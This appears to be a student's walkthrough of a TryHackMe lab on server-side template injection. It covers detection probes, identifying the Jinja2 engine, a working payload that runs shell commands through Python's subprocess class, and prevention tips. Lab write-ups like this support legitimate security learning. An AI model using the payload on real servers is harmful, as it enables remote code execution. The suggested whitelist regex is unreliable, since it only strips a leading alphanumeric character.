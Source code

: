 # Tryhackme

![image](https://github.com/HACKER097/WebEx/assets/38581702/7b639b47-eb9b-431c-82b5-46a4a6a888ba)


## Q1

Just introduces SSTI (Server side template injection) Basically, its sending data which the server reads as a template and runs.

## Q2

We are required to find out which character requence cause errors. After trying out a bunch of things, its `{{`. The error is likely a syntax error, the interpreter expects a `}}` after `{{` and gives an error when it doesnt find it.

## Q3

We have to find out which tempeleting engine is being used. They have given a very useful decision tree.

![image](https://github.com/HACKER097/WebEx/assets/38581702/4208f7ee-8db9-4529-8961-1db6103b68ea)

`${7*7}` Not evaluated

`{{7*7}}` Evaluated

`{{7*'7'}}` Evaluated as `7777777` which is very pythonic. 

So according to the tree, we are using Jinja2 or Twig

## Q4

Jinja2 comments start with `{#`, but there are also other ways to start comments.

## Q5

Explains how to make a ssti payload. Here we are finding the class of an empty string, and then using mro to get to other classes. One of them being subprocess which can be used to run shell commands

This is the final command `http://MACHINE_IP:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}` which gives output jake.

`''.__class__.__mro__[1]` Gives us the object class.

`__subclasses__()` gives us the subclasses in the object class, 401 is targeting the subprocess subclass.

`("whoami", shell=True, stdout=-1).communicate()` is basicaalt the same as running `subprocess.Popen(...)`

## Q6

Explains the mechanism of SSTI, basically because the input has no blacklists, we can input strings which act as a template, and are executed.

## Q7

Prevention can be done by using the secure jinja2 syntax

```python
template = "<h1>Welcome to the profile of {{ user }}!</h1>"
return render_template_string(template, user=user)
```

Its similar to SQLI prevention, where we pass the input as data instead of letting the compiler/interpreter decide weather its data or code.

We can also introduce a whitelist

`re.sub("^[A-Za-z0-9]", "", user)`
